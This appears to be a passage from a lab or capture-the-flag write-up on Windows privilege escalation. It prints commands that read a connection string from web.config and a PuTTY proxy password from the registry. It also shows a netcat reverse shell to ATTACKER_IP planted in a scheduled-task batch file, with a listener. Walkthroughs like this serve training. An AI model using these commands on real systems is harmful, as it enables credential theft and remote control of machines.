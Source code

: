 Again follow the task and enter the command.

```shell
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

You should see in the given text the 2nd answer.


---
#### Retrieve Creds from Software:PuTTY

For this one I had trouble running the command in both cmd and powershell due to the query made in the task missing the last file to access the credentials
the way I solved this was to open Registry Editor and navigate to the location specified in the task 
 ```shell
HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\
```
Once there I saw that their is one more file I needed to go into in order to retrieve the answer.
Now you can either look for the "**ProxyPassword**" manually or just add the directory to the end of your command and retrieve the last answer.

```shell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server /f "ProxyPassword" /s
```



---
### task 4
---
#### Scheduled tasks

This one I had a bit of trouble getting the reverse shell to run.
Instead of using

``` shell
echo C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

use 

```shell
notepad C:\tasks\schtask.bat
```

You will need to manually open "**schtask.bat**" in notepad and type the reverse shell in otherwise it will consistently give you an error and wont execute.

```shell
C:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

Now setup a listener on the attack box.

```bash
nc -lvp 4444
```
